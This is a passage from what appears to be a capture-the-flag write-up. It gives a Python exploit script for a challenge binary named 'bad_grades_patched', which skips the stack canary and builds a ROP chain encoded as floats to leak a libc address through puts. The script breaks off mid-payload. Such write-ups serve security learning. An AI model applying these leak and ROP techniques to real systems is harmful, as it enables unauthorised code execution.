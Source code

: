 - **Full exploit**

    ```python
    #!/usr/bin/python3
    from pwncus import *
    from time import sleep
    import struct

    # context.log_level = 'debug'
    exe = context.binary = ELF('./bad_grades_patched', checksec=False)
    libc = ELF('libc.so.6', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    if args.REMOTE:
        con = sys.argv[1:]
        p = remote(con[0], int(con[1]))
    else:
        p = process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    def hex2float(value):
        try:
            return struct.unpack('>d', bytes.fromhex(hex(value)[2:].rjust(16, '0')))[0]
        except struct.error:
            return 0.0

    def send_floats(value):
        for v in value:
            sla(b': ', str(v).encode())

    def exploit():
        main_addr = 0x401108
        view_addr = 0x400fd5
        current_grade_addr = 0x4011b0
        pop_rdi = 0x0401263
        ret = 0x400666

        # Leak libc address
        sla(b'> ', b'2')
        sla(b': ', b'39')
        send_floats(
            [1.0] * 33 + [
            '+',
            5.0,
            # hex2float(ret),
            hex2float(pop_rdi),
            hex2float(exe.got.puts),